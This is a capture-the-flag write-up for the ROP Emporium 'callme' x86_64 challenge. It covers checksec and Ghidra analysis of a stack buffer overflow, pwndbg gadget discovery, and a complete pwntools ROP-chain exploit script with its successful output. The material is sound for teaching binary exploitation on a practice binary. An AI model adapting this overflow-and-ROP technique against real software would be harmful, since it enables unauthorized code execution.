 # callme

## First look

```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ checksec callme    
[*] '/home/vein/rop_emporium/callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ ./callme    
callme by ROP Emporium
x86_64

Hope you read the instructions...

> test
Thank you!

Exiting
```
The NX is enabled so it prevents running code into the stack, so we can't do a shellcode attack

## Static Analysis

```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  puts("callme by ROP Emporium");
  puts("x86_64\n");
  pwnme();
  puts("\nExiting");
  return 0;
}
```

```c
void pwnme(void)

{
  undefined local_28 [32];
  
  memset(local_28,0,0x20);
  puts("Hope you read the instructions...\n");
  printf("> ");
  read(0,local_28,0x200);
  puts("Thank you!");
  return;
}
```
```c
void usefulFunction(void)

{
  callme_three(4,5,6);
  callme_two(4,5,6);
  callme_one(4,5,6);
                    /* WARNING: Subroutine does not return */
  exit(1);
}
```
We open Ghidra and we saw that a pwnme() function is called by the main. \
We see that has a buffer overflow in the local_28 variable cause it's 32 bytes long \
and the read() takes up to 512 = 0x200

# Exploitation
Challennge description says that to take the flag we must call \
callme_one(), callme_two() and callme_three() functions in that order, each with the arguments:
```text
0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
```
To achieve this we want some rop gadgets to pop the values into the stack. \
For our luck, we found a hide funtion inside pwndbg that has the gadgets that we need. \
Either way we could found them with ropper.
```asm
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ gdb-pwndbg callme
Reading symbols from callme...
(No debugging symbols found in callme)
pwndbg: loaded 141 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
------- tip of the day (disable with set show-tips off) -------
GDB's set directories <path> parameter can be used to debug e.g. glibc sources like the malloc/free functions!
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
pwndbg> disassemble usefulGadgets 
Dump of assembler code for function usefulGadgets:
   0x000000000040093c <+0>:     pop    rdi
   0x000000000040093d <+1>:     pop    rsi
   0x000000000040093e <+2>:     pop    rdx
   0x000000000040093f <+3>:     ret
End of assembler dump.
```

So, now we are ready to craft our payload.
Here is the python script
```python
#!/usr/bin/env python3
from pwn import *

elf = context.binary = ELF('./callme', checksec=False)
p = process()
context.log_level = 'info' # i put it in debug mode for when testing

offset = b'a' * 40 # found with pwndbg

# pop rdi; pop rsi; pop rdx; ret;
pop_gadgets = 0x40093c

# payload for each one callme function with their parameters
payload1 = offset
payload1 += p64(pop_gadgets)
payload1 += p64(0xdeadbeefdeadbeef)
payload1 += p64(0xcafebabecafebabe)
payload1 += p64(0xd00df00dd00df00d)
payload1 += p64(elf.symbols.callme_one)

payload2 = p64(pop_gadgets)
payload2 += p64(0xdeadbeefdeadbeef)
payload2 += p64(0xcafebabecafebabe)
payload2 += p64(0xd00df00dd00df00d)
payload2 += p64(elf.symbols.callme_two)

payload3 = p64(pop_gadgets)
payload3 += p64(0xdeadbeefdeadbeef)
payload3 += p64(0xcafebabecafebabe)
payload3 += p64(0xd00df00dd00df00d)
payload3 += p64(elf.symbols.callme_three)

# craft the final payload
payload = payload1 + payload2 + payload3

p.sendlineafter(b'>', payload)
log.info(p.recvall())
```
```console
┌──(vein㉿vein)-[~/rop_emporium/callme]
└─$ ./exploit.py   
[+] Starting local process '/home/vein/rop_emporium/callme/callme': pid 12129
[+] Receiving all data: Done (105B)
[*] Process '/home/vein/rop_emporium/callme/callme' stopped with exit code 0 (pid 12129)
/home/vein/.local/lib/python3.11/site-packages/pwnlib/log.py:396: BytesWarning: Bytes is nots
  self._log(logging.INFO, message, args, kwargs, 'info')
[*]  Thank you!
    callme_one() called correctly
    callme_two() called correctly
    ROPE{a_placeholder_32byte_flag!}
```
